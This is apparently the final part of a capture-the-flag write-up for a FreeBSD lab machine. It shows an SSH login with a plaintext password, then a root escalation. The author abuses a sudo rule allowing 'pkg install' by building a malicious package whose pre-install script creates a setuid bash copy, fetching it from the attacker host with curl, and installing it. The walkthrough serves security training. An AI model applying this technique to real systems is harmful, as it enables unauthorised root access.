└─$ sshpass -p '!QAZ2wsx' ssh jamie@10.10.10.234
Warning: Permanently added '10.10.10.234' (ED25519) to the list of known hosts.
Last login: Fri Oct 29 12:35:59 2021 from 10.10.14.23
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
When you've made modifications to a file in vi(1) and then find that
you can't write it, type ``<ESC>!rm -f %'' then ``:w!'' to force the
write

This won't work if you don't have write permissions to the directory
and probably won't be suitable if you're editing through a symbolic link.

If you have sudo(8) installed and permissions to use it, type 
``<ESC>w ! sudo tee %'' to force a write.
jamie@Schooled:~ $ 
```
## Root
- `sudo`
```
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *

```

- [GTFOBins](https://gtfobins.github.io/gtfobins/pkg/)
  - Install `fpm`
    - `sudo gem i fpm -f`
  - Then perform the steps from the link
  - I'll create `x.sh` script
```
cp /bin/bash /tmp/pwn
chmod 4777 /tmp/pwn
```
```
└─$ TF=$(mktemp -d)
```
```
└─$ cp x.sh $TF/x.sh
```
```
└─$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```

- Upload package to box
```
jamie@Schooled:/tmp $ curl 10.10.16.4/x-1.0.txz -o x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   508  100   508    0     0    720      0 --:--:-- --:--:-- --:--:--   719

```
```
jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0: 100%
```

- We are `root`
```
Extracting x-1.0: 100%
jamie@Schooled:/tmp $ ls
f                       mysql.sock              mysql.sock.lock         mysqlx.sock             mysqlx.sock.lock        pwn                     tmp.8zPmGCV9WK          x-1.0.txz
jamie@Schooled:/tmp $ ./pwn -p
[jamie@Schooled /tmp]# whoami
root
[jamie@Schooled /tmp]#
```